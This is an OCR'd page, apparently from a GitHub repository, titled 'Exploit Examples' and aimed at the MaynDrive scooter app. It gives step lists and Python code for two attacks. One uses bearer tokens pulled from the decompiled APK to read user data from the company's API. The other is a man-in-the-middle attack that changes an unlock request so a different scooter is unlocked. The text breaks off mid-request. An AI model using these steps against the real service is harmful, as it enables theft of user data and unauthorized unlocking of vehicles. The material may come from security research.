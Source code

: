 ### Exploit Examples

#### API Key Extraction from APK
**Description**: Demonstrate how to extract hardcoded API keys

**Steps**:
1. Download and decompile MaynDrive APK
2. Search for hardcoded strings containing "api", "token", "key"
3. Extract Bearer tokens and API endpoints
4. Test extracted credentials against API endpoints
5. Document successful authentication and available endpoints

**Code Example**:
```python
# Example Python script to test extracted API keys
import requests

# Extracted from APK decompilation
API_BASE_URL = "https://api.knotcity.io"
BEARER_TOKEN = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."

headers = {
    "Authorization": f"Bearer {BEARER_TOKEN}",
    "Content-Type": "application/json",
    "User-Agent": "Knot-mayndrive v1.1.34 (android)"
}

# Test API access
response = requests.get(f"{API_BASE_URL}/api/application/users", headers=headers)
if response.status_code == 200:
    print("✅ Successfully accessed user data!")
    print(f"User data: {response.json()}")
            
```

#### Network Traffic Interception
**Description**: Demonstrate MITM attack on app communications

**Steps**:
1. Set up Burp Suite proxy on local network
2. Configure Android device to use proxy
3. Install Burp certificate on device
4. Intercept MaynDrive API communications
5. Analyze and modify intercepted requests

**Code Example**:
```python
# Example of intercepted API request modification
# Original request to unlock scooter
original_request = {
    "serial_number": "SN12345",
    "lat": 40.7128,
    "lng": -74.0060
}

# Modified request to unlock different scooter
modified_request = {
    "serial_number": "SN99999",  # Different scooter
    "lat": 40.7128,
    "lng": -74.0060
}

# Send modified request
response = requests.post(
    f"{API_BASE_URL}/api/application/vehicles/unlock",
```